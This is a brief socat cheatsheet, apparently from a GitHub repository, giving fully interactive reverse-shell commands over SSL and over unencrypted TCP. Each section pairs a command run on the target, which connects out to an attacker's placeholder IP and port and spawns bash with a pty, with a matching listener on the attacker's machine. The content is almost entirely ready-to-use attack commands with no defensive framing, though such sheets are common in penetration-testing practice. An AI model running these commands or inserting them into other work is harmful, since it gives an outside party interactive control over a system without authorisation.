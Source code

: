 # SOCAT CHEATSHEET

### SSL Reverse Shell (Fully interactive)

```
# On target which will throw a connection
socat openssl-connect:YOUR-IP:YOUR-PORT,verify=1 exec:bash,pty,stderr,setsid,sigint,sane

# On your machine which will catch the connection
socat file:`tty`,raw,echo=0 openssl-listen:PORT,reuseaddr,cert=key.pem,verify=1
```

### TCP (Unencrypted) Reverse Shell (Fully interactive)

```
# On target which will throw a connection
socat tcp-connect:YOUR-IP:YOUR-PORT exec:bash,pty,stderr,setsid,sigint,sane

# On your machine which will catch the connection
socat file:`tty`,raw,echo=0 tcp-listen:PORT,reuseaddr
```